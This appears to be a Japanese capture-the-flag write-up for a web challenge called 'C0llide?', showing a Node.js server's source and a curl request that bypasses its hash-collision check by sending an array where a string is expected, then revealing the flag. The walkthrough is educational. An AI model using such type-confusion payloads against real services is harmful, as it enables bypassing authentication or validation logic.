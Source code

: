 # C0llide?:Web:250pts
Challenge instance ready at 95.216.233.106:30741.  
A target service is asking for two bits of information that have the same "custom hash", but can't be identical. Looks like we're going to have to generate a collision?  

# Solution
アクセスするとJavaScriptのソースが見える。  
```JavaScript:app.js
const bodyParser = require("body-parser")
const express = require("express")
const fs = require("fs")
const customhash = require("./customhash")

const app = express()
app.use(bodyParser.json())

const port = 3000
const flag = "flag"
const secret_key = "Y0ure_g01nG_t0_h4v3_t0_go_1nto_h4rdc0r3_h4ck1ng_m0d3"

app.get('/', (req, res) => {
    console.log("[-] Source view")
    res.type("text")
    return fs.readFile("index.js", (err,data) => res.send(data.toString().replace(flag, "flag")))
})

app.post('/getflag', (req, res) => {
    console.log("[-] Getflag post")
    if (!req.body) {return res.send("400")}
    let one = req.body.one
    let two = req.body.two
    console.log(req.body)
    if (!one || !two) {
        return res.send("400")
    }
    if ((one.length !== two.length) || (one === two)) {
        return res.send("Strings are either too different or not different enough")
    }
    one = customhash.hash(secret_key + one)
    two = customhash.hash(secret_key + two)
    if (one == two) {
        console.log("[*] Flag get!")
        return res.send(flag)
    } else {
        return res.send(`${one} did not match ${two}!`)
    }
})

app.listen(port, () => console.log(`Listening on port ${port}`))
```
/にGETするとソースが見え、/getflagにPOSTするとcustomhashのコリジョンをチェックするようだ。  
```bash
$ curl -X POST -H "Content-type: application/json" -d "{\"one\":1,\"two\":2}" http://95.216.233.106:30741/getflag
75465de2045788dd0c5816b7f325d7f3 did not match 190bba7b59ef3ad7b06b764a912d837f!
```
hashを見てみるとmd5のようだが、コリジョンができるか怪しい。  
js側をごまかせないかと考える。  
以下の部分に注目する。  
```JavaScript
~~~
    let one = req.body.one
    let two = req.body.two
~~~
    if ((one.length !== two.length) || (one === two)) {
        return res.send("Strings are either too different or not different enough")
    }
    one = customhash.hash(secret_key + one)
    two = customhash.hash(secret_key + two)
~~~
```
ここでは厳密等価演算子を使って、長さが違うものと値が等しいものをブロックしている。  
つまり要求は、長さが同じかつ値が異なるかつハッシュが衝突することである。  
無理に思えるが、letによって配列などを渡せる。  
さらに`secret_key + one`と`secret_key + two`ではどんな値でも文字列結合される。  
ブラウザなどのコンソールで試すと以下のようになる。  
```JavaScript
>> "1".length !== [1].length
<- false
>> "1" === [1]
<- false
>> "Test"+"1"
<- "Test1"
>> "Test"+[1]
<- "Test1"
```
よって以下のようにコリジョンさせられる。  
```bash
$ curl -X POST -H "Content-type: application/json" -d "{\"one\":\"1\",\"two\":[1]}" http://95.216.233.106:30741/getflag
ractf{Y0u_R_ab0uT_2_h4Ck_t1Me__4re_u_sur3?}
```

## ractf{Y0u_R_ab0uT_2_h4Ck_t1Me__4re_u_sur3?}